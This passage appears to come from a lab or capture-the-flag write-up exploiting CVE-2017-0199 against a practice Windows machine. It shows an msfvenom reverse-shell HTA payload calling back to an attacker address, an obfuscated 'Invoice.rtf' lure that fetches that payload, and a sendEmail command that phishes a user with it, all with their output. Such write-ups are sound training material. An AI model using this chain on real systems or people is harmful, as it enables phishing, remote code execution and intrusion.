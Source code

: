 {% embed url="https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=30009" %}

Googling for PoCs for this exploit leads me to this somewhat popular repository:

{% embed url="https://github.com/bhdresh/CVE-2017-0199" %}

Following the instructions, we can first generate a payload using `msfvenom`. Earlier, we saw that AppLocker is in place for most executables and scripts, and this exploit allows multiple other methods of getting RCE, such as generating a `hta` file.&#x20;

```
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.42 lport=443 -f hta-psh > shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7263 bytes
```

We can host this file on our own Python HTTP server. Then, generate the RTF file required:

```
$ python2 cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://10.10.14.42/shell.hta -x 1
Generating obfuscated RTF file.

Generated obfuscated Invoice.rtf successfull
```

Afterwards, we just need to use `sendEmail` with the file attached.&#x20;

```
$ sendEmail -f user@megabank.com -t nico@megabank.com -u "Invoice" -a Invoice.rtf -s 10.129.76.206
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

hello nico
Jun 16 09:45:50 kali sendEmail[7797]: Message input complete.
Jun 16 09:46:01 kali sendEmail[7797]: Email was sent successfully!
```

I tried this a few times, and it seems to only work when we use the `-x 0` flag instead. When changed, we can get a reverse shell as the user:

<figure><img src="../../../.gitbook/assets/image (71) (4).png" alt=""><figcaption></figcaption></figure>
